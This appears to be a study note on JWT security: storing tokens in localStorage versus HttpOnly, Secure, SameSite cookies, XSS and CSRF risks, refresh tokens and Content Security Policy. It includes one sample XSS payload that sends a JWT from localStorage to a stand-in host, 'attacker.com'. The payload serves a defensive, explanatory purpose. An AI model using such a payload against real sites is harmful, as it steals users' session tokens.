 JSON Web Tokens

JWT can be stateless (server does not store client data) or stateful (server stores client data)
Token authentication is stateful.

# Best Security Practices in Web Applications

JWT are encoded in base 64, they're not encrypted. 
Typically, JWT are stored on the client side, in the browser's `localStorage` or `sessionStorage`, which are accessible via JavaScript:
```java
localStorage.getItem("jwt");
```
If your website is vulnerable to cross-site scripting XSS, attackers can inject their java script code and steal your JWT. 
```java
<script>
fetch('attacker.com/getToken=' + localStorage.getItem("jwt"));
</script>
```
Keep in mind that JWT is harder to revoke compare to a session token. Session tokens can just be revoked if we remove them from our server. But JWTs only have an expiration. 

We can also store JWT in cookies. We can mark a cookie with the `HttpOnly` flag, which makes the cookie not accessible by javascript on the client side. It can only be read by the server.

- So don't accept raw input from user. Always sanitize and escape.
- Don't store JWT in `localStorage`, that makes application vulnerable to XSS attacks that would steal the JWT[^1]. 
- Store JWT in cookies flagged with `HttpOnly`, `Secure`, and `SameSite=Strict`. With `HttpOnly`, cookies cannot be accessed by JavaScript code run on the client's side, so this secures the application against XSS attacks. `Secure` means the cookie is only sent via HTTPS. And, `SameSite=Strict` means the cookie is only sent to the same sites.[^2]
- Don't use the same JWT forever. Refresh them often using refresh tokens
- Implement a strict [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP)  This is basically a HTTP response header that instructs the browser what javascript to execute and what to ignore to prevent XSS (cross-site scripting) and other similar attacks.

[^1]: XSS attacks includes injecting/running malicious java script code into a web application to steal information. This is possible through un-sanitized form input and vulnerable third-party dependencies. 
[^2]: For two sites to be considered to be the same, they must have the same high level domain name and use the same protocol. For example, `https://example.com` and `https://api.example.com` are considered the same site. 

Cookies are automatically sent with each request. 
Even if XSS attacks can't directly read `HttpOnly` cookies, they can use it in sending legitimate requests (within the same site scope).

This is why most web applications adopt a hybrid approach. When the user logs in, the server sends a short-lived (5-15 minutes) JWT in response body and sets a long-lived refresh token (1 month or so) in a cookie. JWT is stored in memory (e.g. a JavaScript variable). The client application will manually attach the JWT to legit requests, preventing CSRF attacks. We will still be wary of XSS attacks. However, if attackers manage to steal the access token (i.e. JWT), they don't have long to use it as it will automatically refresh. As the JWT expires, the client must request a new access token using the refresh token. This token is stored in a `HttpOnly`, `Secure`, and `SameSite=Strict` cookie and is used for authorization/authentication before a new JWT is issued.